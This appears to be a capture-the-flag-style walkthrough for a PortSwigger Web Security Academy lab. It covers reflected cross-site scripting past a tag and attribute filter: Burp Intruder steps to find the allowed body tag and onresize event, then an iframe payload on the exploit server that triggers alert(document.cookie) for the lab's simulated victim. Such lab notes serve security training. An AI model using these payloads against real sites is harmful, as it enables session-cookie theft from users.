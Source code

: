 ```bash
body "200"
custom tabs "200"

Go to: Positions
Change:

GET /?search=<§§> HTTP/1.1

To

GET /?search=<body%20§§=1> HTTP/1.1

// or // decoded

GET /?search=<body+§§=1> HTTP/1.1

Go to:

https://portswigger.net/web-security/cross-site-scripting/cheat-sheet

Click "Copy events to clipboard"

Go to: Payloads
Payload Options[Simple list]
Clear
Paste
Start attack

oneresize "200"

Copy  the target end-point: 

"https://ac081f131e798290c00505d900b20068.web-security-academy.net/"

Go to: "Exploit server"
Craft a payload:

" = %22
< = %3c
> = %3e
+ = %20

Body:

<iframe src="https://ac081f131e798290c00505d900b20068.web-security-academy.net/?search=%22%3E%3Cbody%20onresize=alert(document.cookie)%3E"
onload=this.style.width='100px'>

// or // decoded

<iframe src="https://ac081f131e798290c00505d900b20068.web-security-academy.net/?search="><body+onresize=alert(document.cookie)>"
onload=this.style.width='100px'>

Click "Store"
Click "Deliver exploit to victim"

```
